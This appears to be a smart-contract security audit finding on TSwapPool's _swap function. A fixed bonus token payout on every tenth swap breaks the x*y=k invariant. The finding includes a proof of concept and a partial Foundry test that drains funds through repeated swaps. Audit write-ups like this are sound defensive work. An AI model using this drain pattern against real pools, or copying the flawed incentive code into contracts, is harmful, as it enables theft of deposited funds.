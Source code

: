 

### [H-5] In TSwapPool::_swap the extra tokens given to users after every swapCount breaks the protocol invariant of x * y = k

**Description**
 The protocol follows a strict invariant of x * y = k. Where:

x: The balance of the pool token
y: The balance of WETH
k: The constant product of the two balances
This means, that whenever the balances change in the protocol, the ratio between the two amounts should remain constant, hence the k. However, this is broken due to the extra incentive in the _swap function. Meaning that over time the protocol funds will be drained.

The follow block of code is responsible for the issue.

```diff
        swap_count++;
        if (swap_count >= SWAP_COUNT_MAX) {
            swap_count = 0;
            outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
        }
```


**Impact:** 
A user could maliciously drain the protocol of funds by doing a lot of swaps and collecting the extra incentive given out by the protocol.

Most simply put, the protocol's core invariant is broken.

**Proof of Concept:**
1. A user swaps 10 times, and collects the extra incentive of 1_000_000_000_000_000_000 tokens
2. That user continues to swap untill all the protocol funds are drained

**Proof of code**
Place the following into TSwapPool.t.sol.
```diff

    function testInvariantBroken() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputWeth = 1e17;

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));

        int256 startingY = int256(weth.balanceOf(address(pool)));
        int256 expectedDeltaY = int256(-1) * int256(outputWeth);

        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        vm.stopPrank();
```